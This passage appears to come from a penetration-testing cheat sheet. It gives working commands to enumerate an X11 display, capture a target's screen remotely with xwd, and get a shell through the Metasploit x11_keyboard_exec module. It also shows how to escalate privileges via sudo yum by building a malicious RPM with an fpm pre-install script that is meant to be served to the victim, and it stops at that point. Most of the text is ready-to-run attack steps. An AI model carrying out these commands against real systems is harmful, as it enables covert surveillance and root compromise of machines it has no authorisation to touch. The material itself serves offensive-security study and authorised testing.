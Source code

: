 ```
xdpyinfo -display :0
```

\[2]

```
xwininfo -root -tree -display :0
```

Both commands should give you an output with the second command showing other connected users to the display. If you get no output from these commands, then it means you have to make sure or copy the `.Xauthority` file to the home directory of the user you owned and set the $HOME environment variable

```
export HOME=/home/user
```

**Screenshot capturing**

```
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
```

If you are on the same machine that you want to perform privilege escalation then you can omit the `<targetIP>` then the command would be

```
xwd -root -screen -silent -display :0 > screenshot.xwd
```

**Getting shell**

```
msf> use exploit/unix/x11/x11_keyboard_exec
```

#### Privilege escalation through yum

Yum is the package manager tool for red hat distributions of Linux OS.

**If the user can run yum as sudo**

We can verify that by running

```
sudo -l
```

Next step is to run below commands on the attacker machine

```
[1] TF=$(mktemp -d)

[2] echo 'id' > $TF/x.sh

[3] fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

The output of the above three commands will be a package manager file `.rpm`. Now on the attacker machine again, we spawn a web server to transfer the package file into the victim machine
